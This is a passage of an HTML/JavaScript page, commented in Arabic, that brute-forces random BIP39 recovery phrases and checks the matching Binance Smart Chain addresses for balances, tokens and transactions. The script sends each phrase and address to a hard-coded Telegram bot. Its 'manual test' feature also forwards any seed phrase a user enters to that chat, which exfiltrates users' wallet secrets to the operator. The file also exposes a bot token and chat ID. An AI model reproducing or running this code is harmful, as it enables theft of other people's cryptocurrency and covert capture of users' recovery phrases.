            "vintage", "violin", "virtual", "virus", "visa", "visit", "visual", "vital", "vivid", "vocal",
            "voice", "void", "volcano", "volume", "vote", "voyage", "wage", "wagon", "wait", "walk",
            "wall", "walnut", "want", "warfare", "warm", "warrior", "wash", "wasp", "waste", "water",
            "wave", "way", "wealth", "weapon", "wear", "weasel", "weather", "web", "wedding", "weekend",
            "weird", "welcome", "west", "wet", "what", "wheat", "wheel", "when", "where", "whip",
            "whisper", "wide", "width", "wife", "wild", "will", "win", "window", "wine", "wing",
            "wink", "winner", "winter", "wire", "wisdom", "wise", "wish", "witness", "wolf", "woman",
            "wonder", "wood", "wool", "word", "work", "world", "worry", "worth", "wrap", "wreck",
            "wrestle", "wrist", "write", "wrong", "yard", "year", "yellow", "you", "young", "youth",
            "zebra", "zero", "zone", "zoo"
        ];

        // إعدادات Telegram - تم التحديث
        const TELEGRAM_BOT_TOKEN = '8257110214:AAFDx0awsmi7yjz6tCZqVY2jS5BZmygvQKw'; // تم تحديث التوكن
        const TELEGRAM_CHAT_ID = '910021564'; // تم تحديث الشات آي دي
        const TELEGRAM_API_URL = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}`;

        // إعدادات BSC
        const BSC_RPC_URL = 'https://bsc-dataseed.binance.org/';
        const BSCSCAN_API_KEY = 'YourBSCScanAPIKey'; // ضع هنا مفتاح BSCScan API الخاص بك
        const BSCSCAN_API_URL = 'https://api.bscscan.com/api';

        // العناصر
        const elements = {
            startBtn: document.getElementById('startBtn'),
            stopBtn: document.getElementById('stopBtn'),
            testTelegramBtn: document.getElementById('testTelegramBtn'),
            clearLogsBtn: document.getElementById('clearLogsBtn'),
            testManualBtn: document.getElementById('testManualBtn'),
            searchSpeed: document.getElementById('searchSpeed'),
            maxAttempts: document.getElementById('maxAttempts'),
            manualMnemonic: document.getElementById('manualMnemonic'),
            totalGenerated: document.getElementById('totalGenerated'),
            activeWallets: document.getElementById('activeWallets'),
            emptyWallets: document.getElementById('emptyWallets'),
            errorCount: document.getElementById('errorCount'),
            progressFill: document.getElementById('progressFill'),
            currentStatus: document.getElementById('currentStatus'),
            logPanel: document.getElementById('logPanel'),
            manualTestResult: document.getElementById('manualTestResult'),
            liveDisplay: document.getElementById('liveDisplay'),
            currentPhrase: document.getElementById('currentPhrase'),
            phraseStatus: document.getElementById('phraseStatus')
        };

        // المتغيرات العامة
        let isRunning = false;
        let searchInterval = null;
        const stats = {
            totalGenerated: 0,
            activeWallets: 0,
            emptyWallets: 0,
            errors: 0
        };

        // وظيفة توليد عبارة BIP39 عشوائية سريعة (مدمجة من كود sell)
        function generateRandomBIP39Phrase() {
            const words = [];
            for (let i = 0; i < 12; i++) {
                const randomIndex = Math.floor(Math.random() * BIP39_WORDLIST.length);
                words.push(BIP39_WORDLIST[randomIndex]);
            }
            return words.join(' ');
        }

        // وظيفة تحويل العبارة إلى عنوان محفظة (مدمجة من كود sell)
        async function mnemonicToAddress(mnemonic) {
            try {
                if (!ethers || !ethers.utils) {
                    throw new Error('مكتبة ethers.js غير محملة');
                }
                
                // التحقق من صحة العبارة
                if (!ethers.utils.isValidMnemonic(mnemonic)) {
                    throw new Error('عبارة الاسترجاع غير صالحة');
                }
                
                // إنشاء محفظة من العبارة
                const wallet = ethers.Wallet.fromMnemonic(mnemonic);
                return wallet.address;
            } catch (error) {
                console.error('خطأ في تحويل العبارة إلى عنوان:', error);
                return null;
            }
        }

        // وظيفة التحقق من تحميل مكتبة ethers.js
        function checkEthersLoaded() {
            if (typeof ethers === 'undefined') {
                updateStatus('❌ مكتبة ethers.js غير محملة. يرجى إعادة تحميل الصفحة.', 'danger');
                addLogEntry('خطأ: مكتبة ethers.js غير محملة', 'error');
                return false;
            }
            return true;
        }

        // وظائف فحص المحفظة على BSC (محتفظة من كود usdt)
        async function checkWalletBalance(address) {
            try {
                if (!checkEthersLoaded()) {
                    return null;
                }
                
                const provider = new ethers.providers.JsonRpcProvider(BSC_RPC_URL);
                const balance = await provider.getBalance(address);
                return parseFloat(ethers.utils.formatEther(balance));
            } catch (error) {
                console.error('خطأ في التحقق من رصيد المحفظة:', error);
                return null;
            }
        }

        // قائمة العملات الشائعة على BSC
        const BSC_TOKENS = [
            { symbol: 'USDT', address: '0x55d398326f99059fF775485246999027B3197955', decimals: 18 },
            { symbol: 'USDC', address: '0x8AC76a51cc950d9822D68b83fE1Ad97B32Cd580d', decimals: 18 },
            { symbol: 'BUSD', address: '0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56', decimals: 18 },
            { symbol: 'CAKE', address: '0x0E09FaBB73Bd3Ade0a17ECC321fD13a19e81cE82', decimals: 18 },
            { symbol: 'ADA', address: '0x3EE2200Efb3400fAbB9AacF31297cBdD1d435D47', decimals: 18 }
        ];

        async function getTokenBalances(address) {
            try {
                if (!checkEthersLoaded()) {
                    return [];
                }
                
                const provider = new ethers.providers.JsonRpcProvider(BSC_RPC_URL);
                const tokenBalances = [];
                
                // ABI مبسط للعملات BEP-20
                const tokenABI = [
                    'function balanceOf(address owner) view returns (uint256)',
                    'function decimals() view returns (uint8)',
                    'function symbol() view returns (string)'
                ];
                
                for (const token of BSC_TOKENS) {
                    try {
                        const contract = new ethers.Contract(token.address, tokenABI, provider);
                        const balance = await contract.balanceOf(address);
                        const decimals = token.decimals;
                        const numericBalance = parseFloat(ethers.utils.formatUnits(balance, decimals));
                        
                        if (numericBalance > 0) {
                            tokenBalances.push({
                                symbol: token.symbol,
                                balance: numericBalance,
                                address: token.address
                            });
                        }
                    } catch (error) {
                        console.error(`خطأ في جلب رصيد ${token.symbol}:`, error);
                    }
                }
                
                return tokenBalances;
            } catch (error) {
                console.error('خطأ في جلب أرصدة العملات:', error);
                return [];
            }
        }

        async function getTransactionCount(address) {
            try {
                if (!checkEthersLoaded()) {
                    return null;
                }
                
                const provider = new ethers.providers.JsonRpcProvider(BSC_RPC_URL);
                const transactionCount = await provider.getTransactionCount(address);
                return transactionCount;
            } catch (error) {
                console.error('خطأ في الحصول على عدد المعاملات:', error);
                return null;
            }
        }

        // تحديث دالة isWalletActive لدعم العملات المتعددة على BSC
        async function isWalletActive(address) {
            try {
                const [balance, transactionCount, tokenBalances] = await Promise.all([
                    checkWalletBalance(address),
                    getTransactionCount(address),
                    getTokenBalances(address)
                ]);
                
                const hasBalance = balance !== null && balance > 0;
                const hasTransactions = transactionCount !== null && transactionCount > 0;
                const hasTokens = tokenBalances.length > 0;
                
                return {
                    isActive: hasBalance || hasTransactions || hasTokens,
                    balance: balance,
                    transactionCount: transactionCount,
                    tokenBalances: tokenBalances,
                    hasBalance: hasBalance,
                    hasTransactions: hasTransactions,
                    hasTokens: hasTokens
                };
            } catch (error) {
                console.error('خطأ في التحقق من نشاط المحفظة:', error);
                return {
                    isActive: false,
                    balance: null,
                    transactionCount: null,
                    tokenBalances: [],
                    hasBalance: false,
                    hasTransactions: false,
                    hasTokens: false,
                    error: error.message
                };
            }
        }

        // وظائف Telegram - معدلة
        async function sendTelegramMessage(message) {
            try {
                console.log('🚀 محاولة إرسال رسالة إلى Telegram...');
                
                const url = `${TELEGRAM_API_URL}/sendMessage`;
                const payload = {
                    chat_id: TELEGRAM_CHAT_ID,
                    text: message,
                    parse_mode: 'HTML'
                };

                console.log('📤 البيانات المرسلة:', payload);

                const response = await fetch(url, {
                    method: 'POST',
                    headers: { 
                        'Content-Type': 'application/json',
                        'Accept': 'application/json'
                    },
                    body: JSON.stringify(payload)
                });
                
                const data = await response.json();
                console.log('📥 الاستجابة من Telegram:', data);
                
                if (!data.ok) {
                    console.error('❌ خطأ في إرسال الرسالة:', data.description);
                    addLogEntry(`❌ خطأ في Telegram: ${data.description}`, 'error');
                    return false;
                }
                
                console.log('✅ تم إرسال الرسالة بنجاح');
                return true;
            } catch (error) {
                console.error('❌ خطأ في الاتصال بـ Telegram:', error);
                addLogEntry(`❌ خطأ في الاتصال: ${error.message}`, 'error');
                return false;
            }
        }

        // دالة اختبار إضافية للإعدادات
        async function testTelegramSettings() {
            console.log('🔍 اختبار إعدادات Telegram...');
            console.log('🔑 التوكن:', TELEGRAM_BOT_TOKEN);
            console.log('💬 الشات آي دي:', TELEGRAM_CHAT_ID);
            
            // اختبار الحصول على معلومات البوت
            try {
                const testUrl = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/getMe`;
                const response = await fetch(testUrl);
                const data = await response.json();
                
                if (data.ok) {
                    console.log('✅ البوت نشط:', data.result);
                    addLogEntry(`✅ البوت نشط: ${data.result.first_name} (@${data.result.username})`, 'success');
                    return true;
                } else {
                    console.error('❌ البوت غير نشط:', data.description);
                    addLogEntry(`❌ البوت غير نشط: ${data.description}`, 'error');
                    return false;
                }
            } catch (error) {
                console.error('❌ خطأ في اختبار البوت:', error);
                addLogEntry(`❌ خطأ في اختبار البوت: ${error.message}`, 'error');
                return false;
            }
        }

        // تحديث دالة formatWalletMessage لعرض جميع العملات على BSC
        function formatWalletMessage(mnemonic, address, walletDetails, isActive) {
            const timestamp = new Date().toLocaleString('ar-EG', {
                timeZone: 'Africa/Cairo',
                year: 'numeric',
                month: '2-digit',
                day: '2-digit',
                hour: '2-digit',
                minute: '2-digit',
                second: '2-digit'
            });
            
            let message = '';
            if (isActive) {
                message = `🎉 <b>تم العثور على محفظة نشطة!</b>\n\n`;
            } else {
                message = `📝 <b>عبارة استرجاع جديدة</b>\n\n`;
            }
            
            message += `📝 <b>العبارة:</b>\n<code>${mnemonic}</code>\n\n`;
            message += `📍 <b>العنوان:</b>\n<code>${address}</code>\n\n`;
            
            if (walletDetails.balance !== null) {
                message += `💰 <b>رصيد BNB:</b> ${walletDetails.balance.toFixed(6)} BNB\n`;
            }
            
            if (walletDetails.transactionCount !== null) {
                message += `📊 <b>عدد المعاملات:</b> ${walletDetails.transactionCount}\n`;
            }
            
            // إضافة أرصدة العملات الأخرى على BSC
            if (walletDetails.tokenBalances.length > 0) {
                message += `\n🪙 <b>العملات الأخرى:</b>\n`;
                walletDetails.tokenBalances.forEach(token => {
                    message += `   ${token.symbol}: ${token.balance.toFixed(4)}\n`;
                });
            }
            
            if (isActive) {
                message += `\n✅ <b>الحالة:</b> محفظة نشطة\n`;
            } else {
                message += `\n❌ <b>الحالة:</b> محفظة فارغة\n`;
            }
            
            message += `\n⏰ <b>الوقت:</b> ${timestamp}`;
            message += `\n🌐 <b>الشبكة:</b> Binance Smart Chain (BSC)`;
            message += `\n🚀 <b>البحث السريع:</b> مفعل`;
            return message;
        }

        async function sendWalletToTelegram(mnemonic, address, walletDetails, isActive) {
            try {
                const message = formatWalletMessage(mnemonic, address, walletDetails, isActive);
                return await sendTelegramMessage(message);
            } catch (error) {
                console.error('خطأ في إرسال المحفظة:', error);
                return false;
            }
        }

        // وظائف العرض المباشر للعبارات (مدمجة من كود sell)
        function updateLiveDisplay(mnemonic, status) {
            elements.liveDisplay.style.display = 'block';
            elements.currentPhrase.textContent = mnemonic;
            
            elements.phraseStatus.className = `phrase-status ${status}`;
            switch(status) {
                case 'checking':
                    elements.phraseStatus.textContent = '🔄 جاري الفحص...';
                    break;
                case 'active':
                    elements.phraseStatus.textContent = '✅ محفظة نشطة!';
                    break;
                case 'empty':
                    elements.phraseStatus.textContent = '❌ محفظة فارغة';
                    break;
            }
        }

        // وظائف السجل
        function addLogEntry(message, type = 'info') {
            const timestamp = new Date().toLocaleTimeString('ar-EG');
            const logEntry = document.createElement('div');
            logEntry.className = `log-entry log-${type}`;
            logEntry.innerHTML = `<span class="log-timestamp">[${timestamp}]</span> ${message}`;
            
            elements.logPanel.appendChild(logEntry);
            elements.logPanel.scrollTop = elements.logPanel.scrollHeight;
        }

        // وظائف تحديث الواجهة
        function updateStats() {
            elements.totalGenerated.textContent = stats.totalGenerated;
            elements.activeWallets.textContent = stats.activeWallets;
            elements.emptyWallets.textContent = stats.emptyWallets;
            elements.errorCount.textContent = stats.errors;
            
            const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
            if (maxAttempts > 0) {
                const progress = (stats.totalGenerated / maxAttempts) * 100;
                elements.progressFill.style.width = `${Math.min(progress, 100)}%`;
            }
        }

        function updateStatus(message, type = 'info') {
            elements.currentStatus.textContent = message;
            elements.currentStatus.className = `alert alert-${type}`;
        }

        // الوظيفة الرئيسية للبحث (محدثة بالطريقة السريعة)
        async function searchForActiveWallets() {
            try {
                if (!checkEthersLoaded()) {
                    stats.errors++;
                    updateStats();
                    return;
                }

                // استخدام الطريقة السريعة لتوليد العبارة
                const mnemonic = generateRandomBIP39Phrase();
                stats.totalGenerated++;
                
                // عرض العبارة في القسم المباشر
                updateLiveDisplay(mnemonic, 'checking');
                
                updateStatus(`جاري فحص العبارة رقم ${stats.totalGenerated}...`, 'info');
                addLogEntry(`تم توليد عبارة جديدة: ${mnemonic.substring(0, 30)}...`);
                
                const address = await mnemonicToAddress(mnemonic);
                
                if (!address) {
                    stats.errors++;
                    addLogEntry('خطأ في تحويل العبارة إلى عنوان', 'error');
                    updateStats();
                    return;
                }
                
                const walletStatus = await isWalletActive(address);
                
                const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, walletStatus.isActive);
                
                if (walletStatus.isActive) {
                    stats.activeWallets++;
                    updateLiveDisplay(mnemonic, 'active');
                    addLogEntry(`🎉 تم العثور على محفظة نشطة! العنوان: ${address}`, 'success');
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة النشطة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة النشطة إلى Telegram', 'error');
                    }
                    
                    updateStatus(`تم العثور على محفظة نشطة! إجمالي المحافظ النشطة: ${stats.activeWallets}`, 'success');
                } else {
                    stats.emptyWallets++;
                    updateLiveDisplay(mnemonic, 'empty');
                    addLogEntry(`محفظة فارغة: ${address.substring(0, 20)}...`);
                    
                    // إضافة العبارة تلقائيًا إلى حقل الاختبار اليدوي
                    elements.manualMnemonic.value = mnemonic;
                    // تحديث نتيجة الاختبار اليدوي تلقائيًا
                    updateManualTestResult(mnemonic, address, walletStatus);
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة الفارغة إلى Telegram بنجاح', 'info');
                        addLogEntry('✅ تم إضافة العبارة تلقائيًا إلى حقل الاختبار اليدوي', 'info');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
                    }
                }
                
                updateStats();
                
                const maxAttempts = parseInt(elements.maxAttempts.value) || 0;
                if (maxAttempts > 0 && stats.totalGenerated >= maxAttempts) {
                    stopSearch();
                    updateStatus(`تم الوصول للحد الأقصى من المحاولات (${maxAttempts})`, 'warning');
                    addLogEntry(`تم إيقاف البحث - وصل للحد الأقصى: ${maxAttempts} محاولة`, 'info');
                }
                
            } catch (error) {
                stats.errors++;
                addLogEntry(`خطأ في العملية: ${error.message}`, 'error');
                updateStats();
            }
        }

        // وظائف اختبار العبارات يدويًا
        async function testManualMnemonic() {
            const mnemonic = elements.manualMnemonic.value.trim();
            
            if (!mnemonic) {
                updateStatus('يرجى إدخال عبارة BIP39 للفحص', 'warning');
                return;
            }
            
            try {
                if (!checkEthersLoaded()) {
                    return;
                }

                updateStatus('جاري فحص العبارة...', 'info');
                addLogEntry(`🔍 جاري فحص العبارة يدويًا: ${mnemonic}`);
                
                // عرض العبارة في القسم المباشر
                updateLiveDisplay(mnemonic, 'checking');
                
                elements.testManualBtn.innerHTML = '<span class="loading-spinner"></span> جاري الفحص...';
                elements.testManualBtn.disabled = true;
                
                const address = await mnemonicToAddress(mnemonic);
                
                addLogEntry(`✅ تم تحويل العبارة إلى العنوان: ${address}`);
                
                const walletStatus = await isWalletActive(address);
                
                updateManualTestResult(mnemonic, address, walletStatus);
                
                const telegramSent = await sendWalletToTelegram(mnemonic, address, walletStatus, walletStatus.isActive);
                
                if (walletStatus.isActive) {
                    updateLiveDisplay(mnemonic, 'active');
                    addLogEntry(`🎉 العبارة تفتح محفظة نشطة! العنوان: ${address}`, 'success');
                    updateStatus('🎉 العبارة تفتح محفظة نشطة!', 'success');
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة النشطة إلى Telegram بنجاح', 'success');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة النشطة إلى Telegram', 'error');
                    }
                } else {
                    updateLiveDisplay(mnemonic, 'empty');
                    addLogEntry(`❌ العبارة تفتح محفظة فارغة: ${address}`, 'info');
                    updateStatus('❌ العبارة تفتح محفظة فارغة', 'info');
                    
                    if (telegramSent) {
                        addLogEntry('✅ تم إرسال المحفظة الفارغة إلى Telegram بنجاح', 'info');
                    } else {
                        addLogEntry('❌ فشل في إرسال المحفظة الفارغة إلى Telegram', 'error');
                    }
                }
                
                elements.testManualBtn.innerHTML = '<span>🔍 فحص العبارة</span>';
                elements.testManualBtn.disabled = false;
                
            } catch (error) {
                updateStatus(`❌ خطأ في فحص العبارة: ${error.message}`, 'danger');
                addLogEntry(`❌ خطأ في فحص العبارة: ${error.message}`, 'error');
                elements.testManualBtn.innerHTML = '<span>🔍 فحص العبارة</span>';
                elements.testManualBtn.disabled = false;
            }
        }

        // تحديث دالة عرض النتائج اليدوية
        function updateManualTestResult(mnemonic, address, walletStatus) {
            let resultHTML = '';
            
            if (walletStatus.isActive) {
                resultHTML = `
                    <h4>✅ نتيجة الفحص: المحفظة نشطة</h4>
                    <div class="status active">محفظة نشطة</div>
                    <div class="balance ${walletStatus.balance > 0 ? 'positive' : 'zero'}">
                        💰 رصيد BNB: ${walletStatus.balance !== null ? walletStatus.balance.toFixed(6) + ' BNB' : 'غير معروف'}
                    </div>
                    <div class="transactions">
                        📊 عدد المعاملات: ${walletStatus.transactionCount !== null ? walletStatus.transactionCount : 'غير معروف'}
                    </div>
                `;
                
                if (walletStatus.tokenBalances.length > 0) {
                    resultHTML += `
                        <div class="token-list">
                            <strong>🪙 العملات الأخرى:</strong>
                            ${walletStatus.tokenBalances.map(token => `
                                <div class="token-item">
                                    <span>${token.symbol}</span>
                                    <span>${token.balance.toFixed(4)}</span>
                                </div>
                            `).join('')}
                        </div>
                    `;
                }
                
                resultHTML += `
                    <div class="wallet-details">
                        <div class="mnemonic">📝 العبارة: ${mnemonic}</div>
                        <div class="address">📍 العنوان: ${address}</div>
                    </div>
                `;
                elements.manualTestResult.className = 'test-result active';
            } else {
                resultHTML = `
                    <h4>❌ نتيجة الفحص: المحفظة فارغة</h4>
                    <div class="status inactive">محفظة فارغة</div>
                    <div class="balance zero">
                        💰 رصيد BNB: ${walletStatus.balance !== null ? walletStatus.balance.toFixed(6) + ' BNB' : 'غير معروف'}
                    </div>
                    <div class="transactions">
                        📊 عدد المعاملات: ${walletStatus.transactionCount !== null ? walletStatus.transactionCount : 'غير معروف'}
                    </div>
                `;
                
                if (walletStatus.tokenBalances.length > 0) {
                    resultHTML += `
                        <div class="token-list">
                            <strong>🪙 العملات الأخرى:</strong>
                            ${walletStatus.tokenBalances.map(token => `
                                <div class="token-item">
                                    <span>${token.symbol}</span>
                                    <span>${token.balance.toFixed(4)}</span>
                                </div>
                            `).join('')}
                        </div>
                    `;
                }
                
                resultHTML += `
                    <div class="wallet-details">
                        <div class="mnemonic">📝 العبارة: ${mnemonic}</div>
                        <div class="address">📍 العنوان: ${address}</div>
                    </div>
                `;
                elements.manualTestResult.className = 'test-result inactive';
            }
            
            elements.manualTestResult.innerHTML = resultHTML;
            elements.manualTestResult.style.display = 'block';
        }

        // وظائف التحكم
        async function startSearch() {
            if (isRunning) return;
            
            if (!checkEthersLoaded()) {
                return;
            }
            
            isRunning = true;
            elements.startBtn.disabled = true;
            elements.stopBtn.disabled = false;
            
            const speed = parseInt(elements.searchSpeed.value) || 3000;
            
            updateStatus('جاري بدء البحث السريع على BSC...', 'info');
            addLogEntry('🚀 تم بدء البحث السريع عن المحافظ النشطة على BSC');
            
            // إظهار قسم العرض المباشر
            elements.liveDisplay.style.display = 'block';
            
            // إرسال رسالة البداية إلى Telegram
            let startMessage = `🚀 <b>بدء عملية البحث السريع عن المحافظ النشطة على BSC</b>\n\n`;
            startMessage += `⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}\n`;
            startMessage += `🔍 جاري البحث السريع عن محافظ تحتوي على أصول أو معاملات على شبكة Binance Smart Chain...\n`;
            startMessage += `🚀 البحث السريع: مفعل\n`;
            startMessage += `📊 معيار النشاط: الرصيد أو وجود معاملات أو العملات الأخرى`;
            
            await sendTelegramMessage(startMessage);
            
            searchInterval = setInterval(searchForActiveWallets, speed);
        }

        async function stopSearch() {
            if (!isRunning) return;
            
            isRunning = false;
            elements.startBtn.disabled = false;
            elements.stopBtn.disabled = true;
            
            if (searchInterval) {
                clearInterval(searchInterval);
                searchInterval = null;
            }
            
            updateStatus('تم إيقاف البحث', 'warning');
            addLogEntry('⏹️ تم إيقاف البحث');
            
            // إخفاء قسم العرض المباشر
            elements.liveDisplay.style.display = 'none';
            
            // إرسال رسالة الإيقاف إلى Telegram
            let stopMessage = `⏹️ <b>تم إيقاف عملية البحث السريع على BSC</b>\n\n`;
            stopMessage += `📊 <b>الإحصائيات النهائية:</b>\n`;
            stopMessage += `🔢 إجمالي العبارات: ${stats.totalGenerated}\n`;
            stopMessage += `✅ المحافظ النشطة: ${stats.activeWallets}\n`;
            stopMessage += `📭 المحافظ غير النشطة: ${stats.emptyWallets}\n`;
            stopMessage += `❌ الأخطاء: ${stats.errors}\n`;
            stopMessage += `\n⏰ الوقت: ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            stopMessage += `\n🚀 البحث السريع: تم استخدامه`;
            
            await sendTelegramMessage(stopMessage);
        }

        async function testTelegramConnection() {
            updateStatus('جاري اختبار الاتصال بـ Telegram...', 'info');
            addLogEntry('🧪 جاري اختبار الاتصال بـ Telegram...');
            
            // اختبار إعدادات البوت أولاً
            const botTest = await testTelegramSettings();
            
            if (!botTest) {
                updateStatus('❌ فشل في اختبار إعدادات البوت', 'danger');
                return;
            }
            
            // ثم اختبار إرسال الرسالة
            const testMessage = `🧪 <b>اختبار الاتصال - BSC Bot المحسن</b>\n\nتم الاتصال بنجاح مع بوت Telegram!\n\n✅ <b>الإعدادات:</b>\n• البوت: ${TELEGRAM_BOT_TOKEN.substring(0, 10)}...\n• المحادثة: ${TELEGRAM_CHAT_ID}\n\n⏰ ${new Date().toLocaleString('ar-EG', { timeZone: 'Africa/Cairo' })}`;
            const success = await sendTelegramMessage(testMessage);
            
            if (success) {
                updateStatus('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
                addLogEntry('✅ تم الاتصال بـ Telegram بنجاح!', 'success');
            } else {
                updateStatus('❌ فشل في إرسال الرسالة', 'danger');
                addLogEntry('❌ فشل في إرسال الرسالة', 'error');
            }
        }

        function clearLogs() {
            elements.logPanel.innerHTML = '';
            addLogEntry('تم مسح السجل');
        }

        // ربط الأحداث
        elements.startBtn.addEventListener('click', startSearch);
        elements.stopBtn.addEventListener('click', stopSearch);
        elements.testTelegramBtn.addEventListener('click', testTelegramConnection);
        elements.clearLogsBtn.addEventListener('click', clearLogs);
        elements.testManualBtn.addEventListener('click', testManualMnemonic);

        // التحقق من تحميل ethers.js عند بدء التطبيق
        document.addEventListener('DOMContentLoaded', function() {
            if (checkEthersLoaded()) {
                updateStatus('✅ تم تحميل مكتبة ethers.js بنجاح. جاهز للبحث السريع على BSC...', 'success');
                addLogEntry('✅ تم تحميل مكتبة ethers.js بنجاح', 'success');
                addLogEntry('🚀 البحث السريع: مفعل ومحسن', 'info');
                addLogEntry('🆕 الميزات المحسنة: البحث السريع + فحص المعاملات + عرض العبارات المباشر', 'info');
            }
        });

        // تحديث الإحصائيات عند بدء التطبيق
        updateStats();
    </script>
</body>
</html>
